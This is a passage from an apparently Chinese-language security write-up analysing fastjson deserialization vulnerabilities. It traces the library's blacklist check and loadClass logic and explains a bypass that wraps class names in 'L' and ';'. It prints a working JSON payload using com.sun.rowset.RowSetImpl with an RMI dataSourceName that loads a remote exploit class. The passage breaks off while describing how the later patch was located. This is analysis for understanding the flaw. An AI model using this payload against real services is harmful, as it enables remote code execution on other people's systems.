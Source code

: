 ```

            if (clazz == null) `{`

                clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);

            `}`
```

该函数是先检查传入的@type的值是否是在黑名单里，然后再进入loadClass函数，这样的话如果loadClass函数里要是会对传入的class做一些处理的话，我们是不是就能绕过黑名单呢，跟进loadClass函数，

```
public static Class&lt;?&gt; loadClass(String className, ClassLoader classLoader, boolean cache) `{`

    if (className != null &amp;&amp; className.length() != 0) `{`

        Class&lt;?&gt; clazz = (Class)mappings.get(className);

        if (clazz != null) `{`

            return clazz;

        `}` else if (className.charAt(0) == '[') `{`

            Class&lt;?&gt; componentType = loadClass(className.substring(1), classLoader);

            return Array.newInstance(componentType, 0).getClass();

        `}` else if (className.startsWith("L") &amp;&amp; className.endsWith(";")) `{`

            String newClassName = className.substring(1, className.length() - 1);

            return loadClass(newClassName, classLoader);
```

可以看到当传入的className以L开头以 ; 结尾的时候会把className的首字符和最后一个字符截去，再去生成实例，于是绕过的poc就非常好写了，原来的payload的利用类的首尾加上这两个字符就Ok了

```
`{`"@type":"Lcom.sun.rowset.RowSetImpl;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true`}`
```

之后的42、43版本的绕过和41的原理是一样的我们就不再提了，具体可以去[https://github.com/shengqi158/fastjson-remote-code-execute-poc/](https://github.com/shengqi158/fastjson-remote-code-execute-poc/)自行查阅。

### 最新fastjson RCE的分析

OK，现在来到了我们期待已久的最新的fastjson漏洞的分析，关于这个漏洞有很精彩的小故事可以讲一讲。

这个漏洞在曝光之后poc迟迟未见，关于它能够被利用成功的版本也可谓是每日都有更新，关于版本有几个关键字 “51”、“48”，“58”，究竟是哪个让人摸不到头脑，于是乎，决定先去看看官方的公告，发现只有49版本releases的公告里面写了“增强安全防护”，于是乎决定去48、49版本寻觅一下，看看commit之类的，但是当时也没有发现什么。

这个时候，一个名不愿透露姓名的大佬在某个技术群里面默默发了一个关键字“testcase“，当时忽然间产生了一丝电流，难道阿里的大佬们在修漏洞的时候会在testcase里面做测试，然后还把testcase的代码传到git里面了？但是还不够，因为testcase的代码太多了究竟放在哪里呢，这个时候之前的分析就可以知道，阿里在防护第一版RCE的时候是通过autotypecheck函数，那这次的补丁也很有可能和它相关喽，直接在testcase里面全局寻找带有autotype关键字的文件名，于是乎，就到达了如下位置
